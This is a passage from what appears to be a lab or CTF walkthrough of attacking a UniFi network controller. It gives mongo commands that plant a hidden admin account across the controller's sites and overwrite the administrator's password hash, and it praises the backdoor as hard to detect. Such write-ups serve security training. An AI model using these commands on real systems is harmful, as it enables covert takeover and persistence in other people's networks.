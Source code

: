```
        "_id" : ObjectId("61ce269d46e0fb0012d47ec5"),
        "anonymous_id" : "27593916-7dfe-4ce8-82de-b11f98c1e814",
        "name" : "default",
        "desc" : "Default",
        "attr_hidden_id" : "default",
        "attr_no_delete" : true
}
```
Store also the `ObjectId` of these two sites. Our purpose is to add the account `unifi-admin` to the site `super` and to the site "default". We can do it by respectively:
```
mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "623401f3d1cba481cf41ffb3", "permissions" : [ ], "role" : "admin", "site_id" : "61ce269d46e0fb0012d47ec4" });'
```
for adding the account `unifi-admin` to the site `super`, and then:
```
mongo --port 27117 ace --eval 'db.privilege.insert({ "admin_id" : "623401f3d1cba481cf41ffb3", "permissions" : [ ], "role" : "admin", "site_id" : "61ce269d46e0fb0012d47ec5" });'
```
for adding the account `unifi-admin` to the site `default`.

Now, by the browser page, if we login with these credentials we created (`unifi-admin:mypassword`), we can access to the application dashboard with the right grants.

This attack path is beautiful for several reasons:
* It’s incredibly difficult to detect that an additional administrative account was added.
* No notifications are presented.
* IT has to navigate pretty deep into the system configuration options to actually see the new account.

### Reset Password for admin user
Since we were not able to crack the password of `administrator` user, we can change it.

Let's generate a password hash for our account using the `mkpasswd` command:
```
$ mkpasswd -m sha-512 mypassword

$6$XqwExB.PWVizrHx.$f1nRm0IsmpjowuOFX/gt9V2ibToY1c5vw2REmY/Mk2l/MEJuf7hna7VegxDGcpPQNyyr.7IUJ62kfPskJn/G8/
```
Let's proceed to replacing the existing hash with the one we created:
```
$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$XqwExB.PWVizrHx.$f1nRm0IsmpjowuOFX/gt9V2ibToY1c5vw2REmY/Mk2l/MEJuf7hna7VegxDGcpPQNyyr.7IUJ62kfPskJn/G8/"}})'
```
We can verify that the password has been updated in the Mongo database by running the same command
we used for listing users:
```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```
and now we are able to login to the application by the browser.

## Phase 3: Privilege Escalation Part 2
